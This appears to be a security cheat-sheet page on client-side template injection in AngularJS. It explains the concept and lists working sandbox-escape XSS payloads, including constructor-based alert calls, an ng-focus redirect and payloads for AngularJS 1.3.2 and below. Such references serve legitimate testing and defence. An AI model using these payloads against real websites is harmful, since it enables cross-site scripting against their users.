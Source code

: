This may result in the execution of arbitrary code inside the boundaries of the compromised application.

**Description**

It is similar to Server Side Template Injection but client-side. Both the SSTI and the CSTI can let you run arbitrary JavaScript code on the victim whereas the SSTI can let you run code on the remote server.

Similar to how SSTI was tested, this vulnerability may be found by having the interpreter execute code that it expects to be between double-keyed characters. If the server is susceptible, for instance, using anything like:

**`{{ 7–7 }}`, you will see a `0`; otherwise, you will see the original: `{{ 7–7 }}`**.

---

**AngularJS**

An AngularJS directive, commonly known as the ng-app attribute, is a common JavaScript library that examines the contents of HTML nodes containing it.

You can run JavaScript expressions within double curly braces when a directive is introduced to the HTML code.

For instance, if your input is mirrored within the HTML body and the body is created with the ng-app syntax: body ng-app>

By including curly braces into the body, you can run any JavaScript code:
```
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

---
### Payloads

**1.3.2 and below**
```
{{7*7}}
```

```
'a'.constructor.fromCharCode=[].join;
'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';
```

```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=""')+''
}}
```

